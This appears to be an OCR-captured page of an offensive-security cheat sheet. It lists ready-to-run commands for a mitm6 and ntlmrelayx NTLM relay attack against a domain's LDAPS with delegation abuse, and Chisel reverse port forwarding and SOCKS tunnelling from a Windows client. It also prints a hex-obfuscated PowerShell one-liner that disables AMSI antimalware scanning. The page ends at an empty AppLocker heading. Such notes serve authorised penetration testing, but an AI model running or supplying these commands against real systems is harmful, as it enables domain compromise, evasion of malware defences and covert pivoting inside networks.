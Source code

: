 ## Mitm6

* Screen 1
  * `mitm6 -d <domain> --ignore-nofqdn`
* Screen 2
  * `ntlmrelayx.py -6 -t ldaps://<domain> -wh test-wpad --delegate-access`
* Filter all usernames
  * `cat domain_users.grep | awk -F '\t' '{print $3}' | sort -u > users.txt`


## Chisel

* Install
   * `apt install golang`
   * `git clone https://github.com/jpillora/chisel.git`
   * `cd chisel`
* Reverse Port Forward
   * Server
      * `go build`
      * `chisel server -p 443 --reverse`
   * Client
      * `GOOS=windows go build`
      * `chisel.exe client <ip>:443 R:1433:127.0.0.1:1433`
   * Check
      * `nmap -p 1433 localhost`
* SOCKS5
   * Server
      * `./chisel server -p 80 --reverse --socks5`
   * Client
      * `.\chisel.exe client <ip>:80 R:socks`
   * Check
      * `proxychains nmap -p 1433 localhost`


AMSI Bypasses
Most public AMSI bypass techniques have in common that they either disable Powershell Script-Logging or change subvalues of the System.Management.Automation namespace. Both techniques are therefore Powershell specific and only affect the Anti Malware Scan-Interface for Powershell script-code. This means that reflectively loaded .NET binaries WILL be flagged.


Remember that amsi.dll is loaded into a new process to hook any input in the Powershell command line or to analyze content for [System.Reflection.Assembly]::Load() calls. More successful AMSI bypass techniques rely on in memory patching for amsi.dll, which breaks AMSI for the whole process. This means that reflectively loaded .NET binaries will NOT be flagged.


    [Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)


## AppLocker
